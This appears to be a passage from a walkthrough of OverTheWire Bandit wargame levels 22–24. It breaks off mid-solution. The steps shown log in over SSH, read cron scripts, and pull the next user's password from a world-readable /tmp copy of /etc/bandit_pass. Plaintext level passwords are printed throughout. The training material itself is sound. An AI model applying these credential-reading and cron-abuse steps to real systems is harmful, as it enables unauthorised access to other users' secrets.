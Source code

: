 **************************************************************

Solution of level 22 -> 23

~$ ssh bandit.labs.overthewire.org -l bandit22 -p2220
This is a OverTheWire game server. More information on http://www.overthewire.org/wargames

bandit22@bandit.labs.overthewire.org's password: Yk7owGAcWjwMVRwrTesJEwB7WVOiILLI

bandit22@bandit:~$ cat /etc/cron.d/cronjob_bandit23
@reboot bandit23 /usr/bin/cronjob_bandit23.sh  &> /dev/null                                     
* * * * * bandit23 /usr/bin/cronjob_bandit23.sh  &> /dev/null                                   
bandit22@bandit:~$ cat /usr/bin/cronjob_bandit23.sh
#!/bin/bash                                                                                     
                                                                                                
myname=$(whoami)                                                                                
mytarget=$(echo I am user $myname | md5sum | cut -d ' ' -f 1)                                   
                                                                                                
echo "Copying passwordfile /etc/bandit_pass/$myname to /tmp/$mytarget"                          
                                                                                                
cat /etc/bandit_pass/$myname > /tmp/$mytarget 

bandit22@bandit:~$ echo I am user bandit23 | md5sum | cut -d ' ' -f 1
8ca319486bfbbc3663ea0fbe81326349

bandit22@bandit:~$ cat /tmp/8ca319486bfbbc3663ea0fbe81326349
jc1udXuA1tiHqjIsL8yaapX5XIAI6i0n
********************************
Bandit Level 23 → Level 24
Level Goal
A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed.

NOTE: This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

NOTE 2: Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

Commands you may need to solve this level
cron, crontab, crontab(5) (use “man 5 crontab” to access this)

**************************************************************

Solution of level 23 -> 24

~$ ssh bandit.labs.overthewire.org -l bandit23 -p2220
This is a OverTheWire game server. More information on http://www.overthewire.org/wargames

bandit23@bandit.labs.overthewire.org''s password: jc1udXuA1tiHqjIsL8yaapX5XIAI6i0n

bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null

bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)
